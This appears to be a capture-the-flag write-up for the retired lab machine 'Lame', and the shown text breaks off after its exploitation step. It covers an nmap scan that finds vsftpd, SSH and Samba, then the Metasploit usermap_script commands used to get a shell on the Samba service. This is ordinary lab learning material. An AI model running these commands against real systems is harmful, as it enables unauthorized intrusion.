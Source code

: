 <h1>LAME 10.10.10.3 Write Up</h1>

<h2>Contents</h2>

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

Retired Easy Machine by ch4p
<img src="./img/1a.png?raw=true" width="80%" alt="Lame profile">
<h2>Tools</h2>
<ol>
  <li>nmap</li>
  <li>Metasploit</li>
</ol>

<h2>Enumeration</h2>

<ol>
  <li>At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X
    
  `nmap -sV 10.10.10.3` </li>
<li>When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.</li>
</ol>

<h2>Exploitation</h2>
<ol>
  <li>Using metasploit we can use the exploit to shell the box.<br>

```bash
use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
msf exploit(multi/samba/usermap_script) > exploit 
```
